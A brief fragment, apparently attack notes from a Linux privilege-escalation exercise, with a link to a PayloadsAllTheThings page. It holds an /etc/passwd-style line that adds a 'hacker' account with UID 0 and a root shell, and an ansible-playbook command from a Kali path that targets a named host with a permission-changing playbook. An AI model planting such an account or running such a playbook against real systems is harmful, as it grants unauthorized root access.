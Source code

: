 - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

hacker:$6$salt$uoy3eLWQ8ZK7dv2FoRxQrkOYfc4FT4qDjc1PCObX5vKn4MZgpfwn8Fm0Ve5u63zmaabiFiQWOZeF2qZDQk18Q0:0:0:Hacker:/root:/bin/bash

ansible-playbook /home/kali/Documents/Vulnerabilities/change_remote_permission.yml -i peilin.wifi.local.cmu.edu, --ask-pass
